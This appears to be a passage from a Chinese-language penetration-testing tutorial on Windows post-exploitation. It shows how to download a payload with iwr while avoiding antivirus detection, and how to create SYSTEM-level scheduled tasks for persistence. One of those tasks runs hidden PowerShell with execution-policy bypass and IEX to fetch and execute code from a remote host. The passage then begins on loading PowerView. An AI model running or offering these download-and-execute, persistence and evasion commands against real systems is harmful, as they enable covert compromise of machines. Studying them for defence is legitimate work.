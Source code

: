 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01b88f93b2bfa90cb6.png)

相关文章：[使用bitsadmin.exe 下载文件,配合bcn.bat玩出更多的花样](https://www.cnblogs.com/gayhub/p/6517655.html)

### iwr

iwr是PowerShell下的一款工具，所以我们如果在cmd下执行该命令的话，需要在前面加powershell命令，但是这会被安全软件检测到。所以建议在执行前，先进入powershell下

```
iwr -Uri http://www.test.com/vps.exe -OutFile vps.exe -UseBasicParsing
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012b523c0976b07123.png)

[![](https://p4.ssl.qhimg.com/t01ae6f220f015364f6.png)](https://p4.ssl.qhimg.com/t01ae6f220f015364f6.png)



## Windows中的计划任务(schtasks)

schtasks是windows下计划任务的命令，可以设置在指定时间执行指定程序或脚本。

```
在目标主机上创建一个名为test的计划任务，启动程序为C:\vps.exe，启动权限为system,启动时间为每小时
schtasks /create /tn test /sc HOURLY /mo 1 /tr c:\vps.exe /ru system /f

schtasks /create /tn test /sc onstart/onlogon/HOURLY /mo 1 /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://xx.xx.xx.xx'''))'" /ru system /f

查询该test计划任务
schtasks /query | findstr test

启动该test计划任务
schtasks /run /i /tn "test"

删除该test计划任务
schtasks /delete /tn "test" /f</code>[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t012eb09f21483b324d.gif)</pre>
参数： /tn：指定计划任务的名称
/sc：指定啥时候开始
**· ** /sc onstart 系统启动的时候执行该计划任务
**· ** /sc onlogon 用户登录的时候执行该计划任务
**· ** /sc onidle -i 30 在空闲模式每隔30分钟执行该计划任务
**· ** /sc hourly 每隔一小时执行该计划任务
**· ** /sc minute 每隔一分钟执行该计划任务
/ed ：指定啥时候停止该计划任务，可以使用该参数，则该计划任务将一直执行下去。也可以指定具体的时间：
**· ** /ed 01/10/2020 -ET 20:00
/tr：指定运行的程序或脚本
/ru：以什么权限运行，可以是 system 或 %USERNAME%
 
<h2 name="h2-9" id="h2-9">Windows中加载并执行PowerShell脚本 </h2>
Windows PowerShell 是一种命令行外壳程序和脚本环境，使命令行用户和脚本编写者可以利用 [.NET Framework](https://baike.baidu.com/item/.NET%20Framework)的强大功能。
Windows XP 和 Windows Server 2003是没有Powershell的，Win7、2008 Server 及其以后的有。更多的关于PowerShell的用法：[PowerShell使用浅析](https://blog.csdn.net/qq_36119192/article/details/103021617)
<h3 name="h3-10" id="h3-10">本地加载并执行PowerShell脚本</h3>
在cmd当前目录下有PowerView.ps1脚本，并执行其中的Get-Netdomain模块
```